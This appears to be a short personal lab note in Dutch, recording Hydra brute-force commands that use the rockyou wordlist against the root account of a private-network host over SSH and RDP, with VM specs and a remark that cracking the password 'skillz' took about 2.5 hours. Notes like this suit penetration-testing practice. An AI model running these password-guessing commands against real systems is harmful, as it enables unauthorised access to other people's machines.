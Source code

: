 ```yaml
---
title: hydra -l root -P ⁄usr⁄share⁄wordlists⁄rockyou.txt 192.168.1.105 -t 4 ssh
tags: [Import-6cdc]
created: '2023-02-17T11:26:47.000Z'
modified: '2023-03-21T10:48:47.834Z'
---
```


> [!INFO] >
> Hardeschijf 20 GB
> 2 CPU
> RAM 2 GB
>

```
commando: ssh attack

# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

```

```
commando: RDP attack

# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 rdp

```

> [!INFO] >
>ongeveer 2,5 uur voor het juiste wachtwoord skillz word gevonden
>

![[Pasted image 20230217115848.png]]
